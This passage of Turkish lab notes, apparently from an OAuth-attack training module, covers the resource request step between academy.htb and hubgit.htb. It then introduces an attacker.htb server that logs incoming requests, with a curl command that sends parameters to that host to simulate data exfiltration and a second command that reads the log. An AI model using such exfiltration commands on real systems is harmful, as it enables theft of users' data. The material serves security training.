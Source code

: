 Tıpkı Access token request ve Access token grant gibi, resource request ve resource response da server-to-server iletişimidir. Artık hubgit.htb hesabımızın kullanıcı bilgilerini tarayıcıda görebiliriz:

![Pasted image 20241218010346.png](/img/user/resimler/Pasted%20image%2020241218010346.png)

Hesap bilgileri doğrudan academy.htb tarafından talep edilmiştir. Yani yine bu kısım bizim için görünmez.

İşlem tamamlandığına göre, academy.htb kullanıcı bilgilerimize ihtiyaç duymadan hubgit.htb hesabımızdaki detaylara erişti.


## Attacker Server

Son laboratuvar bileşeni, ayrı bir virtual host olan attacker.htb adresindeki saldırgan sunucusudur. Bu, bir saldırganın kontrolü altındaki ayrı bir sistemi simüle eder ve ilerleyen bölümlerde bu sisteme nasıl veri sızdırılacağını göstermek için kullanacağız.

Saldırgan sunucu, GET parametreleri, POST parametreleri ve HTTP headerları dahil olmak üzere kendisine yapılan tüm isteklerin tüm istek parametrelerini loglar. Loglanan verilere /log endpoint adresinden erişilebilir.

Örneğin, param1 ve param2 parametreleri aracılığıyla veri sızdırdığımızı varsayarak aşağıdaki HTTP isteğini yapabiliriz:

```shell-session
[!bash!]$ curl -X POST --data 'param1=Hello' http://attacker.htb/?param2=World
```

Daha sonra, sızan verileri görüntülemek için logu alabiliriz:

```shell-session
[!bash!]$ curl http://attacker.htb/log

-----
/?param2=World
Host: exfiltrate.htb
User-Agent: curl/7.88.1
Accept: */*
Content-Type: application/x-www-form-urlencoded
X-Forwarded-For: 172.17.0.1
X-Forwarded-Host: exfiltrate.htb
X-Forwarded-Server: exfiltrate.htb
Content-Length: 12
Connection: Keep-Alive


param1=Hello
```

Log'a bir web tarayıcısından da erişebiliriz:

![Pasted image 20241218010634.png](/img/user/resimler/Pasted%20image%2020241218010634.png)

